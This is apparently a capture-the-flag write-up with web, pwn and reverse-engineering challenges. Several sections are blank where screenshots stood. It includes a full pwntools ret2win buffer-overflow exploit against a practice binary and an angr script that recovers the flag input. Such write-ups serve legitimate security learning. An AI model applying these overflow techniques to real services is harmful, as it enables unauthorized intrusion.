







## WEB

### Health care

#### Descripttion 

You finally come across a unique health care application. Everyone has tried their best to get info from it, but no one has been able to get anything useful. It allways makes silly excuses. Can you help us?

this challenge is quite similar to the last ctf i.e. VishwaCTF-2024's H34DE



## PWN

### overflow

#### Description

I found an exposed service on a power grid machine. I heard that buffer overflow is one of the most common memory corruption bugs. Maybe it might work here?

##### Main func



if you see line 11 **gets** function being used that means its clearly vulnerable bof as no-bound checking, so we can leverage it for overwriting **local_14** var  as flag function is being called if and only if **local_14 != 0** where flag func print the flag.

##### Flag func



##### Solve


### bof

#### Description


##### Main func



function on line no. 10 being used is most probably **scanf** function and same as before no bound checking where the first arg i.e. is **%s** format specifier and second one is user input.

##### secretFunction func



this particular function is printing the flag.

okay, pretty clear it is. its just typical ret2win challenge 

##### Exploit 

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./chall")
libc = elf.libc

context.binary = elf

gdbscript='''
'''

def conn(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([elf.path] + argv, *a, **kw)

def main():
    r = conn()

    padding = cyclic(40)
    win = elf.symbols['secretFunction']
    payload = padding + pack(win)
    r.sendline(payload)

    r.interactive()


if __name__ == "__main__":
    main()
```

## REV

### byte by byte

#### Description


##### Main func



scattered flag , we can do it either manually or using angr

##### Solve

```python
import angr
import re 

project = angr.Project("./condition", auto_load_libs=False)

@project.hook(0x401584)  # Target address
def print_flag(state):
    print("VALID INPUT:", state.posix.dumps(0))
    project.terminate_execution()

project.execute()
``` 



